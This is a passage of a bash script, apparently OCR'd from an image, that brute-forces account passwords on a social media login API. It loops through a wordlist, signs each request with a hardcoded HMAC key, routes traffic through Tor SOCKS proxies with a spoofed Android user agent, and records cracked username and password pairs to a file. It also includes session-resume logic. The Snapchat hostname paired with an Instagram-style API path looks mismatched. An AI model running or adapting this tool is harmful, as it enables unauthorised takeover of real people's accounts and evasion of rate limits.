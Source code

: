 {(trap '' SIGINT && var=$(curl --socks5-hostname 127.0.0.1:9054 -d "ig_sig_key_version=4&signed_body=$hmac.$data" -s --user-agent 'User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"' -w "\n%{http_code}\n" -H "$header" "https://i.Snapchat.com/api/v1/accounts/login/" | grep -o "logged_in_user\|challenge\|many tries\|Please wait" | uniq ); if [[ $var == "challenge" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n [*] Challenge required\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$ ; elif [[ $var == "logged_in_user" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$  ; elif [[ $var == "Please wait" ]]; then  echo $pass >> nottested.lst ; elif [[ $var == "" ]]; then echo $pass >> nottested.lst ; fi; ) } & done; pid4=$! ; # wait $!;
let startline+=20
let endline+=20
done
}
bf5resume() {
while [ $counter5 -lt $turn ]; do
count_pass=$(wc -l $wl_pass | cut -d " " -f1)
IFS=$'\n'
startresume=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1) 
startresume1=$((startresume+1))
IFS=$'\n'
for pass in $(sed -n ''$startresume1','$(($token+endline))'p' $wl_pass); do
header='Connection: "close", "Accept": "*/*", "Content-type": "application/x-www-form-urlencoded; charset=UTF-8", "Cookie2": "$Version=1" "Accept-Language": "en-US", "User-Agent": "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'
data='{"phone_id":"'$phone'", "_csrftoken":"'$var2'", "username":"'$user'", "guid":"'$guid'", "device_id":"'$device'", "password":"'$pass'", "login_attempt_count":"0"}'
ig_sig="4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178"
IFS=$'\n'
countpass=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1)
hmac=$(echo -n "$data" | openssl dgst -sha256 -hmac "${ig_sig}" | cut -d " " -f2)
useragent='User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'
let counter5++
printf "\e[1;77mTrying pass (%s/%s)\e[0m: \"%s\"\n" $countpass $count_pass $pass
{(trap '' SIGINT && var=$(curl --socks5-hostname 127.0.0.1:9055 -d "ig_sig_key_version=4&signed_body=$hmac.$data" -s --user-agent 'User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"' -w "\n%{http_code}\n" -H "$header" "https://i.Snapchat.com/api/v1/accounts/login/" | grep -o "logged_in_user\|challenge\|many tries\|Please wait" | uniq ); if [[ $var == "challenge" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n [*] Challenge required\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$ ; elif [[ $var == "logged_in_user" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$  ; elif [[ $var == "Please wait" ]]; then echo $pass >> nottested.lst ; elif [[ $var == "" ]]; then echo $pass >> nottested.lst ; fi; ) } & done; wait $pid1 > /dev/null 2>&1; wait $pid2 > /dev/null 2>&1 ; wait $pid3 > /dev/null 2>&1 ; wait $pid4 > /dev/null 2>&1; wait $! > /dev/null 2>&1 ;
let startline+=20
let endline+=20
done
}
function resume() {
banner 
checkroot
dependencies
countern=1
if [[ ! -d sessions ]]; then
printf "\e[1;91m[*] No sessions\n\e[0m"
exit 1
fi
printf "\e[1;92mFiles sessions:\n\e[0m"